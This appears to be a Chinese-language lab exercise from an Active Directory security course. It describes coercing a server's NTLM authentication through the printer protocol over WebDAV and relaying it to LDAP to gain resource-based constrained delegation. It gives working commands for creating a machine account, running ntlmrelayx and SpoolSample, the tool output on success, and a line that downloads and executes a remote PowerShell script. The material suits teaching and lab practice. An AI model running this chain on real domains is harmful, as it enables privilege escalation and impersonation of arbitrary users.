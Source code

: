# Exercise 3 - Coerced Authentication and NTLM Relay

## Preparations

在AD-01安裝 Webclient service，以支援WebDav Client功能

```powershell
Install-WindowsFeature WebDAV-Redirector
```

- 重啟後，使用以下腳本讓WEBDAV開機時自動啟動

```powershell
Get-Service mrxdav,webclient | Set-Service -StartupType Automatic
```

- 使用以下腳本確認服務是否開啟

```powershell
start-service mrxdav,webclient
get-service mrxdav,webclient
```

WebDav通常預設不會再Sever上安裝，但是Desktop版本的作業系統通常會預設安裝(如Onedrive就有此功能)，故實務上使用WEBDAV做NTLM Relay是可行的。

## Tools

使用工具如下:

- Impacket: [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)
- SpoolSample: [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)
- Powermad: [https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)

## Theory

本練習利用微軟MS-RPRN(印表機)協定的設計缺陷，強制AD-01使用Computer account(AD-01$)對AD-00發起NTLM驗證，並將該驗證Relay到AD-DC上，執行RDBC委派(為後續內容)，並讓我們創建的computer account **$evilpc** 對AD-01有RBCD權限，可偽冒 **任意使用者** 使用AD-01上的 **任意服務**

### NTLM 驗證

![](../images/2022-06-16-11-47-49.png)

### NTLM Relay場景

![](../images/2022-06-16-11-53-36.png)

### PRPN Problem

- MSRPRN:拿來控制windows印表機共用的協定
    - 角色:
        - 客戶端(Client)
        - 共用印表機的電腦(Printer Server)
        - 印表機
    - Client:可管理Printer Server新增印表機及驅動等動作
    - **Client可要求Printer Server對印表機變動時自動通知Client**

![](../images/2022-06-16-11-57-53.png)

### UNC Path and WebDav

![](../images/2022-06-16-11-58-40.png)

## Exercise

本攻擊包含以下步驟

1) 創建新computer account evilpc
2) 在AD-00設定NTLM-Relay Server
3) 使用MS-RPRC協定觸發AD-01向AD-00發起認證

### Create a new computer account

為了實作kerberos delegation此處需先創建一個computer account **evil-pc**，在實驗六會在詳細解釋原理。

```powershell
cd C:\attacker-tools\
cat -raw .\Powermad.ps1 | iex
New-MachineAccount -MachineAccount evil-pc -Password (ConvertTo-SecureString -String "EvilPassword1" -AsPlainText -Force)
```

### Set up a ntlm relay server

使用ntlmrelayx.py工具，在AD-00發起一個NTLM relay server

```powershell
ntlmrelayx.py --no-smb-server --delegate-access --escalate-user evil-pc$ -t ldap://ad-dc.contoso.com
```

- **--no-smb-server**:不發起SMB Server，因為此處是使用WEBDAV服務(HTTP)作為NTLM的載體。

- **--delegate-access**:定義在ntlm relay後，要向ad-dc變更AD-01的RBCD權限

 - **--escalate-user evilpc$** 使evil-pc$擁有AD-01的RBCD權限。

 - **-t ldap://ad-dc.contoso.com** 定義ntlm relay的目標，此處為使用ldap協議向ad-dc發起RBCD的權限變更。

NTLM為一個內嵌的認證協議，實際上可運用在HTTP、LDAP以及SMB等常見的windows內網協定上。

### 使用MS-RPRC協定觸發驗證

使用SpoolSample.exe使用MS-RPRC協定觸發ad-01向ad-00發起WEBDAV(HTTP)的NTLM協定。

```
 .\SpoolSample.exe ad-01 ad-00@80/foobar
```

**UNC Path格式如下**:
- \\\ad-00 =>發起SMB認證
- \\\ad-00@80 => 對80 port 發起webdav認證


- 如果攻擊成功將會在ad-00的NTLM relay的程式視窗看到以下結果: 

```
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://ad-dc.contoso.com
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://ad-dc.contoso.com
[*] Authenticating against ldap://ad-dc.contoso.com as CONTOSO\adsec-01$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Authenticating against ldap://ad-dc.contoso.com as CONTOSO\ad-01$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://ad-dc.contoso.com
[*] Delegation rights modified succesfully!
[*] evilpc$ can now impersonate users on AD-01$ via S4U2Proxy
```

PowerView 可查看 ad-01成功對evil-pc這個computer account授予RBCD權限。


```powershell
cat -raw ".\PowerView.ps1" | iex
Get-DomainComputer ad-01 | select msds-allowedtoactonbehalfofotheridentity

#取得RBCD的RawData
$RawBytes = Get-DomainComputer ad-01 | select -expand msds-allowedtoactonbehalfofotheridentity

iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

#轉換為 sid
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl

#將sid轉換為可辨識的帳號 sid為上一步取得
ConvertFrom-Sid sid

```